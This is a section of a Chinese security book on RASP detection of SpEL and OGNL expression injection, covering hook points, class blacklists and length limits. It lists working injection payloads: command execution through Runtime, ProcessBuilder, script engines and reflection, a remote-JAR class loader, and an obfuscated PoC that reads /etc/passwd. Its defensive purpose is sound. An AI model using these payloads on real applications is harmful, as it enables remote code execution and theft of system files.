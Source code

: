 ## 10.4 Hook点与检测算法

一般的，我们只需要获取原始表达式，然后对原始的表达式做关键字符串匹配即可，如果存在指定的特征如命令执行的相关的类，可以简单判定该表达式是否为攻击。
这种检测算法很容易被特殊字符或者特殊语法绕过，如下例子：

```java
// 常规的写法：调用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 短名称写法： java.lang包下的类可以省去包名称，只保留类名称       
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
```
如果检测算法设定的黑名单为字符串`java.lang.Runtime`，而短名称的写法可以实现对黑名单的绕过。

仔细分析OGNL的代码，存在如下代码对执行类的校验：
> 图10-35 OGNL对执行类的校验

![图10-35 OGNL对执行类的校验](../../.vuepress/public/images/book/expression/10-35.jpg)

在1处，获取了被反射执行方法的类，如果方法的类来源于特定类的，如`java.lang.Runtime`、`java.lang.ClassLoader` 和 `java.lang.ProcessBuilder`等，将会抛出异常阻断表达式的执行。

这给我们RASP的Hook点的选择一个很好的提示，Hook类的选择应该关注表达式实际加载的类和执行的方法，而不仅仅是表达式本身。
下面将介绍SpEL和OGNL的Hook点的选择。

### 10.4.1 Hook点的选择

+ SPEL表达式Hook点选择

选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法。
该方法的源码如下，通过前面对源码的分析，Hook该方法能够获取需要执行的原始表达式的值。
> 图10-36 TemplateAwareExpressionParser类的parseExpression方法

![图10-36 TemplateAwareExpressionParser类的parseExpression方法](../../.vuepress/public/images/book/expression/10-36.jpg)

从源码分析可以知道SPEL表达式的方法的执行分为2步：第一步是查找类的Class对象，即调用
org.springframework.expression.spel.support.StandardTypeLocator的findType方法，Hook该方法能够获取需要加载的类。
> 图10-37 StandardTypeLocator的findType方法

![图10-37 StandardTypeLocator的findType方法](../../.vuepress/public/images/book/expression/10-37.jpg)

第二步是反射调用方法，表达式中方法的执行最终都在org.springframework.expression.spel.support.ReflectiveMethodExecutor类的execute方法完成，
其源码如下，Hook该方法能够获取被反射的类和方法。
> 图10-38 ReflectiveMethodExecutor类的execute方法

![图10-38 ReflectiveMethodExecutor类的execute方法](../../.vuepress/public/images/book/expression/10-38.jpg)

+ OGNL表达式Hook点选择

选择Hook `ognl.Ognl`类的parseExpression方法来获取原始表达式的值，该方法的源码如下：
> 图10-39 Ognl类的parseExpression方法

![图10-39 Ognl类的parseExpression方法](../../.vuepress/public/images/book/expression/10-39.jpg)


从源码分析可以知道`ognl.OgnlRuntime`类的invokeMethod负责方法调用，其源码如下：
>图10-40 OgnlRuntime类的invokeMethod方法

![图10-40 OgnlRuntime类的invokeMethod方法](../../.vuepress/public/images/book/expression/10-40.jpg)


而`ognl.OgnlRuntime`类的callConstructor方法则负责调用构造器方法，其源码如下：
>图10-41 OgnlRuntime类的callConstructor方法

![图10-41 OgnlRuntime类的callConstructor方法](../../.vuepress/public/images/book/expression/10-41.jpg)

### 10.4.2 表达式注入与检测算法

由于OGNL与SpEL表达式除了Hook点不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 具备攻击能力的SpEL表达式举例

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 类与方法黑名单

通过检测表达式执行过程中加载的类和反射调用的方法，比较容易的识别表达式执行是否存在攻击。
```java
java.lang.Runtime
java.lang.ProcessBuilder
java.lang.UNIXProcess
java.lang.ProcessImpl
java.lang.Classloader
java.lang.Class
java.lang.Thread
java.lang.ThreadGroup
java.lang.System
java.net.URL
java.net.URLClassLoader
javax.naming.InitialContext
javax.script.ScriptEngineManager
org.springframework.cglib.core.ReflectUtils
// ...
```

### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SpEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
